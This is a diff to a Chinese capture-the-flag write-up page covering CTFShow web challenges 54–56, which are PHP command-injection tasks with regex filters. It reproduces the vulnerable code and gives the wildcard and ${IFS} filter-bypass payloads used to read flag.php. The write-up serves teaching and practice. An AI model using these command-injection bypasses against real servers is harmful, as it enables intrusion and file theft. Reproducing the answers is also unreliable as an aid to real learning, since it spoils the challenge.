

Before and after one commit to Alice1nCradle/CTFShow-Web, a Markdown page: Web入门/Web入门.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Web入门/Web入门.md
+++ b/Web入门/Web入门.md
@@ -1330,3 +1401,84 @@ payload：?c=nl$IFS/fl%27%27ag||
+过滤了很多命令。中间这些个很多的星号的内容，其实是说，含有cat,more这样的会被匹配，如cat 那么ca323390ft或c232fa3kdfst, 凡是按序出现了cat 都被匹配。 这时，我们不能直接写ca?因为这样是匹配不到命令的。只能把全路径写出来，如/bin/ca?,与/bin/ca?匹配的，只有/bin/cat命令，这样就用到了cat 命令了。
+
+空格依旧用${IFS}代替。先ls查看一下，发现目标文件flag.php
+
+然后构建查看flag.php的payload：?c=/bin/?at${IFS}f???????
+
+请注意，它只是执行了但没有回显结果，需要自己看源代码
+
+
+
+### web55
+
+```
+<?php
+
+/*
+# -*- coding: utf-8 -*-
+# @Author: Lazzaro
+# @Date:   2020-09-05 20:49:30
+# @Last Modified by:   h1xa
+# @Last Modified time: 2020-09-07 20:03:51
+# @email: h1xa@ctfer.com
+# @link: https://ctfer.com
+
+*/
+
+// 你们在炫技吗？
+if(isset($_GET['c'])){
+    $c=$_GET['c'];
+    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
+        system($c);
+    }
+}else{
+    highlight_file(__FILE__);
+}
+```
+
+由于过滤了字母，但没有过滤数字，我们尝试使用/bin目录下的可执行程序。
+
+但因为字母不能传入，我们需要使用通配符?来进行代替
+
+?c=/bin/base64 flag.php
+
+替换后变成
+
+?c=/???/????64 ????.???
+
+谜语人滚出CTF！
+
+还真的得到了base64编码，但这种纯靠猜的题目建议扔秦岭喂大熊猫
+
+
+
+### web56(未完成)
+
+```
+<?php
+
+/*
+# -*- coding: utf-8 -*-
+# @Author: Lazzaro
+# @Date:   2020-09-05 20:49:30
+# @Last Modified by:   h1xa
+# @Last Modified time: 2020-09-07 22:02:47
+# @email: h1xa@ctfer.com
+# @link: https://ctfer.com
+
+*/
+
+// 你们在炫技吗？
+if(isset($_GET['c'])){
+    $c=$_GET['c'];
+    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
+        system($c);
+    }
+}else{
+    highlight_file(__FILE__);
+}
+```
+
+它这次把数字也过滤了……
 
 
 
````
Also changed, not shown: other parts of Web入门/Web入门.md (+72 -1 lines).
